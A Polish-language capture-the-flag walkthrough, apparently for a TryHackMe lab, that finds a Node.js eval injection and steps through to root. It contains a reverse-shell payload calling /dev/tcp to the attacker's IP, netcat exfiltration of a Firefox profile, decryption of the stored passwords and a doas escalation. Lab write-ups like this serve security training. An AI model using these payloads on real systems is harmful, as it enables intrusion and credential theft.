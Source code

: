 1) Poczekaj okolo 5 min, az `blad 502` zniknie i strona sie zaladuje.

2) Otworz `narzedzia developerskie` i otworz `tag script`.

3) Z ponizszego kodu:

```

      function getAccess() {
        fetch('/api/ac**ss')        <---------------------
          .then((response) => response.json())
          .then((response) => {
            console.log(response);
          });
      }
    
```

Wyciagamy endpoint do pierwszego api. 

4) Doklejamy do linku `/api/ac**ss` i ukazuje nam sie zakodowany `token`:

```dGhpc****3RfcmVhbA==```

5) Mozna od razu zauwazyc ze ciag wyglada znajomo jest to `base64`.

Wchodzimy na np. te strone: (base64decode.org/)[base64_decode]

Wpisujemy nasz `zakodowany token` i dostajemy `odkodowany`:

```this_is_*_**```

6) Wracamy na `glowna strone` wchodzimy w `narzedzia developerskie`.

Wchodzimy w zakladke `Cookies` i widzimy `token` ustawiony na wartosc `value` klikamy dwukrotnie na niego i zmieniamy wartosc na nasz `odkowany token`.

Po tym wszystkim `odswiezamy strone` (f5)

7) Ukazuje nam sie inna strona wchodzimy w zakladke `debugger`. 

Na lewym panelu rozwijamy zakladke `js` i klikamy w plik `script.js`

```
  const container = document.getElementById('items');
  await fetch('/api/**')                                <------------------------
    .then((response) => response.json())
    .then((response) => {
      response.sins.forEach((element) => {

```

Z powyzszego kodu widzimy kolejny endpoint do `nastepnego API`.

8) Dopisujemy go do naszego `linku` i przechwytujemy `request` przez np. w moim przykladu program `burp`.

9) Robimy `send to reapeater` i robimy `send`.

Jesli sie nie powiedzie `usun` z `requestu Header`:

```
    If-None-Match: W/"a9-0aR6bAfiK/DB+***"

```

I powinno juz wszystko dzialac. 

10) Sprawdzamy na jakie zapytania `pozwala` API. 

Zmieniamy `GET` na `OPTIONS`

```OPTIONS /api/i* HTTP/1.1```

11) Widzimy ze mozemy wykonac nastepujace rzeczy w tym endpoitcie:

```GET,HEAD,POST```

12) Sprawdzamy mozliwe parametry:

```wfuzz -c -z file,/usr/share/wordlists/common.txt -X POST --hh 45 -u http://<IP>/api/i*\?FUZZ\=test```

Widzimy funkcje `eval`, ktora powinna nam dac duzo do myslenia:

```
    ReferenceError: test is not defined
    at eval (eval at router.post (/var/web/routes/api.js:25:60
```

13) Interesuje nas `POST`. Szukamy w internecie `NodeJs RCE eval`. 

Ja skorzystalem z tej strony: (https://blog.appsecco.com/nodejs-and-a-simple-rce-exploit-d79001837cc6)[strona]

Zauwazylem tam `exploit` ktory uzyje.

14) Zmieniamy w `burpie` parametr na `post` i dopisujemy `?cmd=` oraz doklejamy `exploit`:

```
    POST /api/i*?cmd=require('child_process').exec('bash+-c+"bash+-i+>%26+/dev/tcp/<IP>/<PORT>+0>%261"') HTTP/1.1
```

W terminalu wpisujemy `nc -lvpn <PORT>`

I klikamy `send`. Powinnismy uzyskac dostep do uzytkownika `user`.

15) Wchodzimy do katalogu `/home/user` i widzimy `pierwsza flage`.

16) Po przepisaniu flagi (`cat <plik>`) pokazujemy wszystkie pliki w folderze `ls -la`.

Moze nam sie rzucic w oczy ukryty katalog `.firefox`. Wchodzimy w niego `cd .firefox`.

Widzimy cos co wyglada jak katolog sesji `b5w4643p.default-release`.

17) Na nasza maszyne pobieramy: (https://github.com/unode/firefox_decrypt)[Firefox_decrypt]

Pakujemy sesje z servera `tar -cf archive.tar ./b* `.

Za pomoca (https://nakkaya.com/2009/04/15/using-netcat-for-file-transfers/)[netcata] wysylamy plik na nasz komputer.

Na naszym komputerze wpisujemy: `nc -l -p 1234 > ./archive.tar`.

A na serverze: `nc -w 3 <IP> 1234 < archive.tar`.

18) Potem za pomoca `firefox_decrypt` deszyfrujemy haslo do uzytkownika `v0id`:

```./firefox_decrypt.py ./(SCIEZKA DO KATALOGU)b5w4643p.default-release```


Po chwili ukazuje nam sie:

```

    Website:   https://glitch.thm
    Username: 'v0id'
    Password: 'love_*'


```

19) Przechodzimy na uzytkownika `v0id` za pomoca `su v0id`.

Jesli pokaze Ci sie: `su: must be run from a terminal `. Wpisz: `python3 -c 'import pty; pty.spawn("/bin/bash")'`. A potem ponownie probujemy.

20) Za pomoca polecenia `doas` zwiekszamy nasze uprawnienia do uzytkownika `root`.

```doas -u root /bin/bash```

21) Wchodzimy do katalogu `/root` i zdobywamy `ostatnia flage`.